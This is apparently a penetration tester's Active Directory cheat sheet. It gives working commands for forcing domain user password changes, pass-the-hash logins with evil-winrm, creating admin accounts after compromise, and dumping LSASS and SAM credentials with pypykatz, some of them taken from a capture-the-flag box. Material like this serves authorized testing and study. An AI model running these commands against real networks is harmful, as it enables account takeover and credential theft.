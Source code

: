 ## ForceChangePassword
**[ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)**

**Requires:** `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` on Object

```
net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts new password)

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('CONTOSO\\dfm.a', $SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential $Cred (optional $Cred)
```

**Additional Resources**
  - [BloodHound ForceChangePassword](https://support.bloodhoundenterprise.io/hc/en-us/articles/17223286750747-ForceChangePassword)

## Pass The Hash
**[Pass The Hash](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/hash-pass-the-hash/#references)**
```
evil-winrm -u James -H 8af1903d3c80d3552a84b6ba296db2ea -i 192.168.110.53 (obtain through mimikatz dump)
  - Sometimes you can compromise the WinRM, and then create a new administrator account to psexec into to access domain.
```

## SeDebugPrivilege Add New Administrative User
**[SeDebugPrivilege Add New Administrative User](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)**

## Credential Dumping
**[LSASS Dump - lsass.DMP](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)**

**Requires:** Credential Guard to be disabled.

```
Dumping LSASS via Linux: https://medium.com/@offsecdeer/dumping-lsass-remotely-from-linux-efc47391e56d
```

**[Dumping Local SAM](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)**
  - Crack SAM hashes: https://sanjumalhotra26.medium.com/dumping-credentials-from-sam-file-using-mimikatz-and-cracking-with-john-the-ripper-and-hashcat-ce5bbf2f4f5a

**[Pypykatz - Mimikatz for Linux](https://github.com/skelsec/pypykatz)**

**Requires:** A DMP file containing credentials extracted to our Linux machine.
```
pypykatz lsa minidump lsass.DMP
```
